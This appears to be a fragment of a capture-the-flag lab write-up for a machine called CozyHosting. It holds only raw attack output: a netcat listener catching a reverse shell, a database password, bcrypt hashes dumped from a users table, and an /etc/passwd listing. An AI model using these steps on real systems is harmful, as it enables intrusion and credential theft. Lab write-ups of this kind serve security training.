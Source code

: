
listening on [any] 1234 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.230] 51082

contraseña postresql Vg&nvzAQ7XxR

cozyhosting=# SELECT name,password from users;
   name    |                           password                           
-----------+--------------------------------------------------------------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm


root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
